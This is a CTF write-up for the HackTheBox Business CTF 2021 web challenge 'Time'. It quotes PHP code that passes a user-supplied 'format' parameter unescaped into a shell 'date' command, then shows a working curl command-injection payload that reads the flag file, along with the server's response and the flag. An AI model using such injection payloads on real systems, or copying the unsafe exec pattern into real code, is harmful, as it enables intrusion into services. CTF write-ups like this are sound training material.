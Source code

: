 ```yaml
---
title: "HackTheBox Business CTF 2021 - Time (Web)"
classes: wide
header:
  teaser: /assets/images/htb-frame.png
search: true
categories: 
  - HackTheBox
  - HackTheBox Business CTF 2021
  - CTF
tags:
  - HackTheBox Business CTF 2021
last_modified_at: 2021-07-26T26:58:26+08:00
---
```


`Time` is a web challenge from [HackTheBox Business CTF 2021](https://www.hackthebox.eu/htb-business-ctf-2021?utm_source=website&utm_medium=banner&utm_campaign=business_ctf). This challenge is talking about how to access with using `date` format? and how to bypass the flag file after we get the `date` from target machine.

First, run the docker instance,copy the address to browser
![Emails](/assets/images/htbbiz2021-time/time1.png)

Let's download the source codes,and navigate to `TimeController.php`
```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
From the `TimeController.php` source codes, we found `$format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';` with `get` access to parameter `format`,then we need to know how to get the `flag`. Let's analyze the `TimeModel.php` code
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```
from `$this->command = "date '+" . $format . "' 2>&1";` we know about the `date` format and how to execute command from the target url.

Let's try using `curl`
```bash
$ curl 'http://142.93.35.92:30370/?format=%H-%M-%S-%27;$(cat%20../flag)%27'
<html>
<head>
  <meta name='author' content='makelaris, makelarisjr'>
  <meta name='viewport' content='width=device-width, initial-scale=1, shrink-to-fit=no'>
  <title>Time</title>
  <link link='preload' href='//fonts.googleapis.com/css2?family=Press+Start+2P&display=swap' rel='stylesheet'>
  <link rel='stylesheet' href='//maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css' integrity='sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm' crossorigin='anonymous'>
  <link rel='icon' href='/assets/favicon.png' />
  <link rel='stylesheet' href='/static/main.css' />
</head>
<body>
  <nav class="navbar navbar-dark bg-primary navbar-expand-lg mb-4">
    <a class="navbar-brand mb-0" href="?format=%H:%M:%S">🕒 What's the time?</a>
    <div class="collapse navbar-collapse" id="navbarSupportedContent">
      <ul class="navbar-nav">
        <li class="nav-item">
          <a class="nav-link" href="?format=%Y-%m-%d">📅 What's the date? <span class="sr-only">(current)</span></a>
        </li>
      </ul>
    </div>
  </nav>
  <div class="jumbotron vertical-center">
    <div class="container">
      <div class="container">
        <h1 class="jumbotron-heading">><span class='text-muted'>It's</span> sh: 1: HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_PWN!!!}: not found<span class='text-muted'>.</span></h1>
      </div>
    </div>
  </div>
</body>
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
</html> 
```
or
```bash
$ curl 'http://142.93.35.92:30370/?format=%H-%M-%S-%27;$(cat%20../flag)%27' | html2text | grep HTB{
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1974    0  1974    0     0   1171      0 --:--:--  0:00:01 --:--:--  1171
****** >It's sh: 1: HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_PWN!!!}: not
```
![Emails](/assets/images/htbbiz2021-time/time2.png)

